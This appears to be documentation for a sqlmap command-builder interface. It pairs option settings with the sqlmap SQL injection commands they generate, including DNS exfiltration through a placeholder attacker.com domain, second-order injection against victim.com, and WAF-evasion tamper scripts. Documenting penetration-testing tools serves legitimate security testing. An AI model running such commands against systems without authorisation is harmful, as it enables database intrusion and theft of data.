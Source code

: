 ### Performance Optimization
```
Null Connection: ✓ Enabled
Predict Output: ✓ Enabled
Concurrent Requests: 8
Skip Heuristics: ✗ Disabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/admin.php?id=1" --null-connection --predict-output --threads=8
```

### SSL and Redirect Handling
```
Force SSL: ✓ Enabled
Follow Redirects: ✓ Enabled
Chunked Encoding: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/secure.php?id=1" --force-ssl --follow-redirects --chunked
```

### DNS Exfiltration
```
DNS Domain: attacker.com
3rd Level Domain: ✓ Enabled
Ignore Proxy: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/restricted.php?id=1" --dns-domain=attacker.com --3rd-level-domain --ignore-proxy
```

### Second-Order Injection Testing
```
Second Order: http://victim.com/profile.php?id=1
Alert Command: notify-send 'Second-order SQLi found'
Beep: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/input.php" --second-order=http://victim.com/profile.php?id=1 --alert="notify-send 'Second-order SQLi found'" --beep
```

### Comprehensive Miscellaneous Configuration
```
Tamper Scripts: space2comment,base64encode
Keep Alive: ✓ Enabled
Null Connection: ✓ Enabled
Threads: 3
Predict Output: ✓ Enabled
Force SSL: ✓ Enabled
Disable Coloring: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/complex.php?id=1" --tamper=space2comment,base64encode --keep-alive --null-connection --threads=3 --predict-output --force-ssl --disable-coloring
```
